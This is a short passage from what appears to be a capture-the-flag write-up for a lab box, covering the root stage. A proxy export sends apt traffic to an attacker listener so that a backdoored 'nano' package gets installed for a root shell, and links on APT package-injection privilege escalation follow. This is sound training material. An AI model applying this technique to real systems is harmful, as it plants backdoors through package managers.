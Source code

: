 `export http_proxy='http://10.10.14.32:4444'`

Make sure "Intercept" is off.

[[Top]](#top)

# Root Flag

After running an `update` we see hits on our webserver. And after an `upgrade` we can install our backdoored
"nano" and get a "root-shell".

![apt-update](onetwoseven-aptupdate.png)

![root-shell](onetwoseven-rooted.png)

One of my favorite boxes so far! :)
See you next time.

[[Top]](#top)

Additional Ressoures:
* <a href="https://versprite.com/blog/apt-mitm-package-injection/" target="_blank">APT-Mitm-Package-Injection</a>
* <a href="https://lsdsecurity.com/2019/01/linux-privilege-escalation-using-apt-get-apt-dpkg-to-abuse-sudo-nopasswd-misconfiguration/" target="_blank">APT-PrivEsc</a>
* <a href="http://wiki.blue-panel.com/index.php/Create_Signed_APT_repository" target="_blank">Create-Signed-APT-Repo</a>
